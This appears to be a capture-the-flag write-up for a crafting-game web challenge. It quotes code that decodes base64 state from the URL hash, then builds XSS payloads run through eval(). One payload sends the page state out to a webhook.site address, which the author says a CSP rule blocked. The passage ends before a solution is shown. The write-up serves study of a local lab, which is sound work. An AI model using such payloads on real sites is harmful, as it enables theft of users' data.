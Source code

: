 ```js
    try {
        state = JSON.parse(atob(window.location.hash.slice(1)));
        for (const [a, b] of state.recipe) {
            if (!found.has(a) || !found.has(b)) {
                break;
            }
            const result = evaluate(a, b);
            found.set(result, elements.get(result));
        }
    } catch(e) {}
```

There we have **state** is the JSON obj after base64 decoded `atob()`
 `window.location.hash.slice(1)` is taking the after "#" part of current URL.
  Example: http://example.com/#123abc if go on this func => 123abc

Then if statement check the ingredient element already founded => execute the `evaluate()` function and add result element to the founded map.

## Exploit

So, i have to take my time for playing this game till i got XSS (waste of time) to met the condition of evaluate() function.

Take first step with simple payload: `{"recipe":[["Exploit","Web Design"]],"xss":"alert('1')"}`
=> http://localhost:8080/#eyJyZWNpcGUiOltbIkV4cGxvaXQiLCJXZWIgRGVzaWduIl1dLCJ4c3MiOiJhbGVydCgnMScpIn0=

Its worked!

Chromium stored the attribute of **state** so i need to see content of state, this bring me to this payload:

    {"recipe":[["Exploit","Web Design"]],"xss":"let output='';for(const[key,value]of Object.entries(state)){output+=`${key}:${value}`;}alert(output);"}

Encode it and bring to the URL, also worked too! 
=> recipe:Exploit,Web Designxss:let output='';for(const[key,value]of Object.entries(state)){output+=`${key}:${value}`;}alert(output);

Its processing in Chromium, so i need something that return the flag to me. THAT WHY I USED WEBHOOK!

=> payload: ``` http://localhost:8080/remoteCraft?recipe={"recipe":[["Exploit", "Web Design"]],"xss":"let output='';for(const[key,value]of Object.entries(state)){output+=`${key}:${value}`;};window.location = 'https://webhook.site/09e19f10-a88e-405c-b6c1-4870e0c497d5/?e=' + output"}```

The Chromium processing, then 

    http://127.0.0.1:8080/#${Buffer.from(JSON.stringify(state)).toString('base64')}
accessed by browser =>  **evaluate()** executed => **eval()** execute => **XSS** !!!

Unfortunately, despite many tries, the webhook cant catch my request, then i realize that `"navigate-to 'none'"` in CSP  :(

After hours, i found that we can use `window.location.hash.slice(1)` again to get the flag, cause our location is indeed containing the flag. But we don't have anything to return it. 
